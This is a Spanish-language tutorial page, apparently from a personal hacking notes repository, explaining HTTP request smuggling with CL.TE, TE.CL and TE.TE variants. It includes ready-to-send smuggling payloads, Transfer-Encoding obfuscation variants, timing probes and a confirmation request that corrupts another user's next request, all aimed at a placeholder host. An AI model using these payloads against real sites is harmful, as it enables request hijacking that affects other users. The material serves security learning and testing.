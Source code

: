 # Repositorio donde escribo/anoto recursos relacionados al hacking

# Web

## HTTP Request Smuggling

![HTTP Request Smuggling diagram](img/http-request-smuggling.svg)

### ¿Qué es?

Una técnica para interferir el modo en el que un sitio web procesa secuencias de consultas HTTP

Típicamente cuando el frontend de una aplicación recibe consultas, intenta enviar muchas consultas juntas al backend, ya que esto es mucho más eficiente, esto es posible gracias a los headers de las consultas, que le indican al servidor dónde termina y dónde inicia una consulta, pero para esto deben interpretarlo de la misma manera el frontend y el backend.

![Diagrama de frontend enviando varias consultas (de distintas fuentes) al backend](img/forwarding-http-requests-to-back-end-server.svg)

Este es el caso "normal", ya que no hay confusiones ni consultas extrañas, pero si un atacante desea confundir a un servidor vulnerable, le puede hacer creer que parte de la consulta es otra nueva, como se muestra en el siguiente diagrama.

![Diagrama que muestra un caso de smuggling en el que parte de la consulta del atacante se interpreta como una completamente nueva perteneciente a otro cliente](img/smuggling-http-request-to-back-end-server.svg)

Esta vulnerabilidad nace principalmente gracias a 2 headers, que son las dos maneras de indicar dónde termina una consulta: `Content-Length` y `Transfer-Encoding`

`Content-Length` especifica el largo de la consulta con la cantidad de bytes, por ejemplo:

```http
POST /prueba HTTP/1.1
Host: prueba.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

param=value
```

`Transfer-Encoding` (detalles [aquí](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Transfer-Encoding)) es un header que se puede ocupar para especificar que la consulta ocupa chunked-encoding, esto significa que la consulta tiene uno o más chunks de data, cada chunk consiste en el tamaño (bytes) del chunk, seguido de un salto de línea, luego los datos, finalmente la consulta termina cuando encuentra el chunk 0 (vacío, sólo un 0), por ejemplo:

```http
POST /prueba HTTP/1.1
Host: prueba.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
param=value
0
```

Como la especificación HTTP admite dos formas de indicar el largo de los mensajes, es posible incluir ambos headers, la especificación HTTP intenta arreglar este problema ignorando `Content-Length` si es que los dos están presentes, esto sería suficiente para un solo servidor, pero no necesariamente cuando hay más de un servidor implicado (encadenados), esto se debe a dos principales razones:

* Algunos servidores no soportan `Transfer-Encoding`.

* Algunos servidores que soportan `Transfer-Encoding` pueden ser inducidos a no procesar el header en caso de estar ofuscado de alguna manera.

Entonces cuando los servidores de frontend y backend procesan de maneras diferentes los headers (específicamente `Transfer-Encoding`) es cuando podría ser vulnerable.

### Tipos de ataques de HTTP Request Smuggling

#### CL.TE

Es cuando el frontend utiliza `Content-Length` y el backend `Transfer-Encoding`

Ejemplo:

```http
POST / HTTP/1.1
Host: prueba.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

El frontend determina que el cuerpo de la consulta es de 13 bytes, es decir, hasta el final de SMUGGLED, esta consulta es enviada al backend, donde se determina que la consulta termina en el 0, por lo tanto se ve SMUGGLED como el inicio de una nueva consulta totalmente aparte.

#### TE.CL

Es cuando el frontend utiliza `Transfer-Encoding` y el backend `Content-Length`.

Ejemplo:

```http
POST / HTTP/1.1
Host: prueba.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

> Nota: es necesario desactivar cualquier automatización de `Content-Length` que se haga, ya que la idea es no poner el largo real.

En este caso el frontend procesa "todo" el cuerpo, pero el backend al procesar `Content-Length` llega hasta antes de SMUGGLED, por lo que desde esa parte en adelante, será procesada en el backend como una nueva consulta.

#### TE.TE:

Es cuando el frontend utiliza `Transfer-Encoding` y el backend `Transfer-Encoding`, pero alguno de los servidores se puede inducir a no procesar el header, posiblemente por ofuscación.

Algunas posibles ofuscaciones: (también sirve variar mayúsculas o duplicados)

```http
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:    chunked

 Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

### Cómo identificarlas

#### Técnicas de tiempo (delay)

##### CL.TE

Si la aplicación es vulnerable a esta variante, entonces probablemente va a causar un delay esta consulta:

```http
POST / HTTP/1.1
Host: prueba.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

Ya que el frontend enviaría la consulta sin incluir la X, mientras que el backend esperaría el próximo chunk.

##### TE.CL

En este caso usaríamos la siguiente consulta:

```http
POST / HTTP/1.1
Host: prueba.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

El frontend mandaría hasta el 0, mientras que el backend esperaría más datos, gracias a `Content-Length`

#### Confirmando la vulnerabilidad usando respuestas diferenciales

> Nota: como consulta "normal" se usará de ejemplo la siguiente consulta:
> 
> ```http
> POST /prueba HTTP/1.1
> Host: prueba.com
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 11
> 
> q=smuggling
> ```

##### CL.TE

```http
POST /prueba HTTP/1.1
Host: prueba.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

Si el ataque es exitoso, las últimas líneas (a partir de GET /404) serán tratadas por el backend como parte de la siguiente consuta, donde la próxima consulta "normal" que haga alguien quedaría de la siguiente manera:

```http
GET /404 HTTP/1.1
Foo: xPOST /prueba HTTP/1.1
Host: prueba.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

En el caso de que devuelva el 404 (o lo que se espera dependiendo del ataque) se puede confirmar la vulnerabilidad.
